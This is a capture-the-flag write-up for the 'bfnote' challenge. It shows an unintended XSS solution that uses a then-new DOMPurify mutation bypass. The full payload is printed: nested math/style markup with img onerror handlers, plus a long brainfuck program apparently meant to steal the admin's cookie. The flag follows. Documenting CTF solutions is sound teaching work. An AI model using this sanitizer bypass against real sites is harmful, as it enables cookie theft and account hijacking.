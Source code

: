 # bfnote
This is **unintended** solution. For intended one see other writeups here: [https://ctftime.org/task/13089](https://ctftime.org/task/13089)

In this challenge we can make a POST request to the server containing brainfuck code. Then we can send the prepared brainfuck note to the admin. That suggests that the solution is XSS and the flag is somewhere in admin's cookie.

The code is displayed, but previously sanitized by DOMPurify:
```javascript
document.getElementById('program').innerHTML = DOMPurify.sanitize(program).toString();
```
and then executed - however, the result is also sanitized using:
```html
output = output.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

The intended solution required us to use google recaptcha's callback mechanism. Fortunately for us (and unfortunately for challenge author...) a 1-day bug in DOMPurify has been announced and fixed during the CTF. As the challenge was using the fixed version of library, it was made possible to inject malicious code - with some little filtering on the way. The final payload:

```
[<math><mtext><table><mglyph><style><math><img src="x" onerror="window.output.innerHTML=window.output.innerText"><img src="x" onerror="window.output.innerHTML=window.output.innerText"></math>]----[---->+<]>---.-[--->+<]>.++++.------.-[--->+<]>--.---[->++++<]>-.-.++++[->+++<]>+.[--->++<]>-----.+[-->+<]>+++.----[->++++<]>.[---->+<]>++++.--.+++++[->+++<]>.-.---------.+++++++++++++..---.+++.[-->+<]>++++.+[-->+<]>+++.-[->+++<]>.[--->++<]>-----.[----->++++<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.--[--->+<]>-.-[--->+<]>----.-------------.----.--[--->+<]>-.+++[->+++<]>.+[--->++<]>+.-[--->+<]>.-------.++++++++.--------.+++++++++.++++++.+[--->+<]>+.-.----[->+++<]>.++++.------.-----[->+++<]>+.++.-[-->+++<]>-.[->++++++<]>+.-[-->+<]>---.[--->++<]>-.-.++++[->+++<]>+.[--->++<]>-----.-[--->++<]>-.----[->+++<]>-.++++++++++++..----.+++.+[-->+<]>.-----------..++[--->++<]>+.[->+++<]>.---.++++++.+++++++..----.[->++++++++++<]>.[--->++<]>-.----------.+++++++++++.+++[->+++<]>.[->+++<]>.+[->++<]>+.++++.-[-->+<]>.[->++<]>-.--.-[++++>-----<]>.--.++.-----------.-[--->+<]>++.[-->+<]>++++.-----[->++<]>.[-->+<]>-.----.+++++++.--.[->++<]>-.--.-[-->+<]>---.+++[->++<]>+.+[-->+<]>+++..---[->++<]>.[-->+<]>----.-[--->+<]>++.[-->+<]>+++.----.++.--[->++<]>-.+.--.[-->+<]>.++++.--.+++.-----.[----->+<]>++.+++[-->+++<]>.[--->++<]>-----.-[--->++<]>-.++++.+[--->+<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.--[--->+<]>-.++++++++++++..----.--.----.++++[->+++<]>.+[--->+++++<]>.+++++++++++.------------.-[--->+<]>-.--------.--------.+++++++++.++++++.[++>---<]>.+++[->++<]>.+++++++++++++.-----------.+[--->+<]>++.-----[++>---<]>.++[->++<]>+.-[++>-----<]>..-----------.+++++++++.----------.-[--->++<]>+.+[-->+++<]>++.+.+++.--------.-[->+++<]>-.+[--->+<]>.[->+++<]>.-------.---[->++<]>.
```
and the flag that made us aware this was not intended solution:
```
TWCTF{reCAPTCHA_Oriented_Programming_with_XSS!}
```